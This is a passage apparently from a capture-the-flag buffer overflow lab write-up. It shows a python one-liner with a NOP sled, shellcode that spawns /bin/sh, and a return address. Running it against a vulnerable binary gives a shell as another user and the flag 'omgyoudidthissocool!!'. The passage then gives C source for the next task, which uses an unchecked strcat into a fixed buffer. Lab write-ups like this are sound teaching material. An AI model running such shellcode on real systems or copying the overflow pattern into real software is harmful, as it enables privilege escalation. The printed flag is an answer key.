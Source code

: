 Let's test:

```
[user1@ip-10-10-12-188 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*8 + '\x88\xe2\xff\xff\xff\x7f')")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������
sh-4.2$ whoami
user2
sh-4.2$ cat secret.txt 
omgyoudidthissocool!!
sh-4.2$ 
```

Answer: `omgyoudidthissocool!!`

# [Task 9] Buffer Overflow 2

Look at the overflow-4 folder. Try to use your newly learnt buffer overflow techniques for this binary file.

## #1 - Use the same method to read the contents of the secret file!

**Code**

Below is the code for `buffer-overflow-2.c`:

```c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```

Run:

```
[user1@ip-10-10-12-188 overflow-4]$ ./buffer-overflow-2 OOPS
new word is doggoOOPS
```
